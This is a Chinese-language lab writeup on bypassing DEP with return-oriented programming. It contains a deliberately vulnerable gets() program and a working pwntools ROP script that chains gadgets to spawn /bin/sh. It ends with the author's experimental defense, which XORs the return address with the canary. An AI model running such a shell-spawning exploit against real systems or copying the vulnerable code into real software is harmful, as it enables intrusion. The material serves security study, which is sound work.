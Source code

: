 #Buffer Overflow With DEP

我設計了一個有buffer overflow漏洞的程式，開啟保護**DEP（NX）**的保護

為了方便實作DEP的bypass，ASLR調整為1，不開啟canary跟PIE的保護

code：

```
//ROP.c
#include <stdlib.h>
#include <stdio.h>

void bof(){
	int buf[50];
	gets(buf);
	return;
}

int main(){
	bof();
	return 0;
}
```

DEP不允許區段的寫入跟執行權限同時開啟

所以stack上佈好shellcode也無法執行

但有人想到一種bypass的方式

---

###ROP

>找到程式中，可執行的片段（gadget），組合成shellcode

>gadgets的最後一個指令是ret的話

>就可以持續串聯下一個gadget

利用ROPgadget這套工具可以快速建好gadgets，只是要想辦法組好shellcode而已

攻擊程式：

```
#ROP.py
from pwn import *

r = remote('0.0.0.0', 4000)	#qira

binsh1 = 0x6e69622f	#'/bin'
binsh2 = 0x68732f	#'/sh'

padding = 'a' * 204 + p32(binsh1) + p32(binsh2)	#overflow & set /bin/sh at ebp-4 & ebp

#gadgets
pop_a = 0x080b8fa6	#pop eax ; ret
pop_dcb = 0x0806f9f0	#pop edx ; pop ecx ; pop ebx ; ret
syscal = 0x0806d5a5	#int 0x80

payload = padding + p32(pop_a) + p32(0xb) + p32(pop_dcb) + p32(0) + p32(0) + p32(0xf6fff354) + p32(syscal)

r.sendline(payload)

r.interactive()

r.close()
```

程式流程從bof轉到gadgets造出來的shellcode：

![](./sc_gadgets.png)

>某天我想到一個娛樂性有點高的防禦方法

>可以擋下ROP這類的攻擊，但是目前仍有一點缺陷...

===

#Defense ROP

其實，我一開始只是想讓他跳不到shellcode而已

為了完成這樣的目的，在程式流程剛進入callee時

我把gs段的0x14(就是32bits下的canary)跟ebp+4(return address)做XOR

然後放回去ebp+4

程式要返回caller之前，再取canary跟ebp+4做XOR，還原真正的return address

**如果ebp+4已經被竄改過**，他還是會和canary做XOR

這樣就跳不到attacker想要的位址了，感覺起來還不錯

code:（asm inline模擬版本）

```
//Defense.c
#include <stdlib.h>
#include <stdio.h>

void bof(){
	__asm__("mov %gs:0x14, %ecx\n\t"
		"xor 4(%ebp), %ecx\n\t"
		"mov %ecx, 4(%ebp)\n\t"
		"xor %ecx, %ecx");
	int buf[50];
	gets(buf);
	__asm__("mov %gs:0x14, %ecx\n\t"
		"xor 4(%ebp), %ecx\n\t"
		"mov %ecx, 4(%ebp)\n\t"
		"xor %ecx, %ecx");
	return;
}

int main(){
	bof();
	return 0;
}
```

再碰上ROP的時候，先看一下被overflower的return address

![](./Defense1.png)

然後再來看看他跟canary做XOR之後的樣子，就不知道跑去哪裡了

而且還因為是不合法的位址，程式終止了

![](./Defense2.png)

缺陷是stack被洩漏的話，attacker可以先調整好第一個gadget

**娛樂性**在於：我真的不知道他會跳去哪裡

如果他XOR做完的return address是合法的，我完全無法預測會發生什麼事XD

目前當機次數：1


暫時先寫這樣，再慢慢擴充好了
